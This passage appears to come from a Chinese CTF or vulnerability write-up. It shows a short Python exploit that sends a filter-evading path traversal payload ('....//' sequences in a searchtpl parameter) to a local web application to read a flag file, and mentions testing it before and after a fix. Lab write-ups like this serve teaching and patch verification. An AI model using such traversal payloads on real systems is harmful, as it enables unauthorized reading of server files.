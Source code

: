 ##### Exp 设计

利用「request 库」即可得到  flag

```python
import requests
def exp(url):
    r=requests.get(url)
    flag=r.text
    return flag
if __name__ == '__main__':
    print(exp("http://127.0.0.1/?search=&searchtpl=....//....//....//....//....//....//....//....//flag"))
```

Exp 在修复前后的两种环境中运行情况如下

![exp1_insert_success_216](../img/exp1_insert_success_216.jpg)
